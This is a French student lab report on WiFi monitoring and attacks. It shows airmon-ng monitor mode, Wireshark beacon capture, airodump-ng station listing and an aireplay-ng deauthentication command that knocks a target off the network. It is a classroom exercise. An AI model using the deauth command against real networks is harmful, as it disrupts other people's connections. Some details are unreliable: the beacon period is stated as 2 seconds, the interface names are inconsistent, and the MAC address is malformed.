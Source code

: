 a) **Quel est le mode de la carte réseau qui permet d'écouter les trames balises ?**

Le mode de la carte réseau qui permet d'écouter les trames balises est le mode `Monitor`.

b) **Avec Wireshark, montrer la présence des trames balises**

On lance la commande suivante afin de changer le mode de la carte réseau vers le mode `Monitor`:
```bash
airmon-ng start wlp2s0
```

On lance ensuite Wireshark, et on sélectionne l'interface `wlp2s0mon` afin de capturer les trames balises.
![wireshark](./img/wireshark.png)

c) **Comparer le contenu des trames balises avec les informations affichées par le périphérique WiFi
lors d'un Scan.**

Le contenu est identique, on retrouve le SSID, le canal, le supported rate etc...

d) **Quelle est la périodicité des trames balises (indiquée dans la trame) ?**

La périodicité des trames balises est de 100*20ms, soit une trame balises toutes les 2 secondes.

4. **Avec l'outil airodump-ng, déterminer les stations connectées à votre réseau WiFi**

On lance la commande suivante:
```bash
airodump-ng wlp3s0mon -c 6
```

5. **Déconnecter une machine cible avec une attaque de type dé-authentiffication en utilisant l'outil aireplay-ng**

On lance la commande suivante (exercice fait en commun avec un autre groupe):
```bash
aireplay-ng --deauth 0 -a E6:FB:2D:6D;2D;00 wlp3s0mon
```